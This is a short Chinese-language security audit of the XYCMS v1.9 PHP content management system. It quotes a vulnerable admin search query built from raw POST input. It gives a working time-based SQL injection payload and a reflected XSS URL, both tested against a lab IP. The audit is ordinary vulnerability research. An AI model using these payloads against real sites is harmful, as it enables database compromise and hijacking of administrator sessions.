

# XYCMS v1.9 代码审计

## 环境准备

- [源码下载地址](http://down.chinaz.com/soft/37797.htm)
- phpstudy+phpstorm+
- xray+burpsuite

## 审计流程

前台黑盒审计了一下，功能较少，只有个留言板。先分析后台漏洞吧。

### SQL注入1
- `http://10.30.1.49/system/manage_book.php?act=search`
```php
<?php
require 'include/session.php';
require 'include/globle.inc.php';
require XYCMS_IN . 'Libs/Class/page.class.php'; 
$x_m=$_GET['act'];
$x_keys=$_POST['keyword'];
if($x_m=='search' and $x_keys!=""){
	$xy_sql="select * from xycms_book where b_title like '%$x_keys%' order by id desc,c_date desc";
}else{
	$xy_sql="select * from xycms_book order by id desc,c_date desc";
}
$result=$db->query($xy_sql); 
?>
```
- 关键代码:
```
$xy_sql="select * from xycms_book where b_title like '%$x_keys%' order by id desc,c_date desc";
```

这里用了SQL通配符的`%`,与like一起使用，替代0个或者多个字符

这里可以用延时注入:
```
keyword=123'and(select*from(select+sleep(0))a/**/union/**/select+1)='
```



### XSS反射型

```
http://10.30.1.49/system/edit_user.php?id=\%22%3E%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E
```
